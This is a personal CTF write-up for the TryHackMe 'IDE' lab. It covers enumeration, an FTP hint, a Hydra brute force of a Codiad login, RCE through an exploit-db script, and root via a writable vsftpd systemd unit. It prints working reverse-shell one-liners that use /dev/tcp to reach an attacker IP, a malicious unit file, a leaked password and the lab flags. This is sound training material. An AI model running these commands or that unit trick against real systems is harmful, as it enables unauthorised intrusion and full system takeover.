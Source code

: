 ```yaml
---
title: THM - IDE
published: true
---
```

Hello, It is my first post. From now I start to post my writeup/notes about CTF challenges from differents platforms to share you my approach. 



# Enumeration
Let's scan ports :

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:C5:29:36:64:91 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

62337  open  tcp -> HTTP -> Codiad 2.8.4 #thanks to masscan

```

I found FTP, then I connected in anonymous mode : 
```
# Conntect to FTP
cd ...
get -

# File content 

Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```
According this file, we can guess john and drac are users of the machine
# Web Enumeration :
Whatweb to check web components used by the website :
```
WhatWeb report for http://10.10.49.31
Status    : 405 Method Not Allowed
Title     : Error response
IP        : 10.10.49.31
Country   : RESERVED, ZZ

Summary   : HTTPServer[WebSockify Python/3.6.9], Python[3.6.9]

Detected Plugins:
[ HTTPServer ]
	HTTP server header string. This plugin also attempts to 
	identify the operating system from the server header. 

	String       : WebSockify Python/3.6.9 (from server string)

[ Python ]
	Python is a programming language that lets you work more 
	quickly and integrate your systems more effectively. You 
	can learn to use Python and see almost immediate gains in 
	productivity and lower maintenance costs. 

	Version      : 3.6.9
	Website     : http://www.python.org/

HTTP Headers:
	HTTP/1.1 405 Method Not Allowed
	Server: WebSockify Python/3.6.9
	Date: Fri, 06 Jan 2023 13:01:12 GMT
	Connection: close
	Content-Type: text/html;charset=utf-8
	Content-Length: 472

```
Gobuster to enumerate directories : 
```
gobuster dir --url http://10.10.182.125 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,json,yaml,csv
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.182.125
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt,json,yaml,csv
[+] Timeout:        10s
===============================================================
2023/01/06 12:55:18 Starting gobuster
===============================================================
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2023/01/06 13:06:35 Finished
===============================================================

```

I attempted a directory bruteforece on the codiad service :
```
gobuster dir --url http://10.10.182.125 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,json,yaml,csv
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.182.125
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt,json,yaml,csv
[+] Timeout:        10s
===============================================================
2023/01/06 12:55:18 Starting gobuster
===============================================================
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2023/01/06 13:06:35 Finished
===============================================================
```

Earlier I found through my scan codiad on version 2.8.4.

# Exploitation
Codiad has a login page, then I attempted to crack password of john and drac users. I stored john and drac into users.txt file and brute forced their password thanks to Hydra : 

```
hydra  -L users.txt -P /usr/share/wordlists/rockyou.txt -v -s 62337 10.10.107.200 http-post-form "/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=fr:F={\"status\"\:\"error\",\"message\"\:\"Incorrect Username or Password\"}"
....
[62337][http-post-form] host: 10.10.107.200   login: john   password: password
```

To exploit codiad, I used the following exploit : [exploitdb](https://www.exploit-db.com/exploits/49705)


This exploit allows me to have a reverse shell.
First in a terminal I set up my reverse shell server : 
```
echo 'bash -c "bash -i >/dev/tcp/10.10.130.96/9002 0>&1 2>&1"' | nc -lnvp 9001
```
Then, I triggered the rce :

```
python exploit.py http://10.10.107.200:62337/ john password 10.10.130.96 9001 linux
```

# Post-Exploitation : 
## User flag :
After I got the machine, I checked the drac's commands history and I got his password because he logged into mysql with the -p flag.
```
cat /home/drac/.bash_history

mysql -u drac -p 'Th3dRaCULa1sR3aL'

```
Then, I got the flag user :
```
cat user.txt 
02930d21a8eb009f6d26361b2d24a466

``` 
## Privilege escalation to root : 
I Attempted to see what I could run as root using ```sudo -l```: 
```
drac@ide:/tmp$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart

```
I thought I could modify the vsftp service throught edition of /etc/systemd/system/vsftpd.service file but I could not write in this file. Then, In despair I launched linpeas and got the real service file config I must edit to gain root access :
```
/lib/systemd/system/vsftpd.service 
```
Gaining root access :
```
[Unit]
Description=vsftpd FTP server

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'sh -i >& /dev/tcp/10.10.191.61/9001 0>&1'

[Install]
WantedBy=multi-user.target
```

Setting up root reverse shell : 
```
nc -lnvp 9001
# After restarting vsftp service (sudo /usr/sbin/service vsftpd restart)
cat /root/root.txt
ce258cb16f47f1c66f0b0b77f4e0fb8d -> the flag 

```